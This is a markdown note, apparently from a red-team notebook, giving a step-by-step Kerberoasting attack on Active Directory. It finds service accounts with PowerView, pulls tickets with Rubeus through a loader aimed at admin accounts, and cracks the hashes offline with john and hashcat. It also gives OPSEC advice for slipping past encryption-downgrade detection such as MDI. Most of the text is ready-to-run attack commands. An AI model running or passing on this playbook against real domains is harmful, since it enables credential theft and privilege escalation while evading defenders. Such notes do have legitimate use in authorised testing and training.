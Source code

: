 Kerberoasting flys under the radar due to the actions being completely legitimate, we just keep the ticket for the password hash and bruteforce it offline.


Discover kerberoastable users (PowerView & AD Module)
```powershell
Get-DomainUser -SPN

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

Check with Rubeus
```powershell
.\Loader.exe -path .\Rubeus.exe -args kerberoast /stats
```

> [!NOTE] Nore
>  If we see any SPN accounts with their passwords set 5 or more years ago, they could be promising targets as they could have a weak password 
### OPSEC Kerberoast
To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC

**DO ONE ACCOUNT AT A TIME TO HAVE THE TICKET REQUESTS LOOK LEGITIMATE**
```powershell
.\Loader.exe -path .\Rubeus.exe -args kerberoast /stats /rc4opsec
.\Loader.exe -path .\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:svcadmin.hash

.\Loader.exe -path .\Rubeus.exe -args kerberoast /rc4opsec /outfile:hashes.txt
```

### Standard Kerberoast
Target a single user - **Adding `/tgtdeleg` will give us a RC4 ticket increasing cracking speeds (Doesn't work on Windows server 2019 and up)** 
```bash
.\Rubeus.exe kerberoast /tgtdeleg /user:sapservice /nowrap
```

Target admin accounts
```powershell
.\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap
```

--- 

Check encryption type (`0`= `RC4` | `24`= `AES 128/256`) - **PowerView**
```powershell
Get-DomainUser sapservice -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

---
Crack
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt

hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250513191525.png]]